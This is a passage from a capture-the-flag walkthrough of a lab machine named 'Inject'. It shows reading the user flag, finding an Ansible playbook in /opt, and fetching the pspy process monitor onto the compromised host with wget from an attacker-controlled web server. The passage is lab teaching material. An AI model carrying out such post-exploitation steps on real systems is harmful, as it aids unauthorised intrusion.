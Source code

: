 With a shell as phil, I can get `user.txt`:

```

phil@inject:~$ cat user.txt
4a256f61************************

```

## Shell as root

### Enumeration

#### Automation

There’s a single file in `/opt`:

```

phil@inject:~$ find /opt/ -type f
/opt/automation/tasks/playbook_1.yml

```

It’s a yaml file that is describing tasks:

```
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started

```

I’ll ask ChatGPT what this file is, and it identifies it immediately:

![image-20230313213946016](/img/image-20230313213946016.png)

[Ansible](https://www.ansible.com/) is an open-source automation tool that simplifies the process of managing and configuring IT infrastructure. As ChatGPT identified, this one makes sure that the webapp service is running through systemd.

#### Processes

I’ll use [pspy](https://github.com/DominicBreuker/pspy) to check for running processes on the host. I’ll download the latest release from their [release page](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1) (1.2.1 at the time of solving), host it with a Python webserver, and fetch it to Inject with `wget`:

```

phil@inject:/tmp$ wget 10.10.14.6/pspy64
--2023-03-14 01:43:58--  http://10.10.14.6/pspy64
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.96M  4.14MB/s    in 0.7s

2023-03-14 01:43:59 (4.14 MB/s) - ‘pspy64’ saved [3104768/3104768]

```
